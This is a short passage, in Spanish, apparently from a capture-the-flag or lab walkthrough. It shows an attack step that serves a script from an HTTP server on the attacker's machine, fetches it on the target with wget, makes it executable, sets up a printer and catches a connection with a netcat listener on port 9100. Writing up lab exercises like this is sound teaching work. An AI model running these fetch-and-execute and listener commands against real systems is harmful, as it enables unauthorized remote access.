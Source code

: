 - `sudo python3 -m http.server 80`
- `wget http://10.10.15.21/id.sh`
- `chmod +x id.sh`

![22](img/22.png)

Creamos una nueva impresora.

![23](img/23.png)

Ponemos a la escucha nuestro netcat y ejecutamos el script.

- `nc -lvnp 9100`
- `./id.sh`

![24](img/24.png)
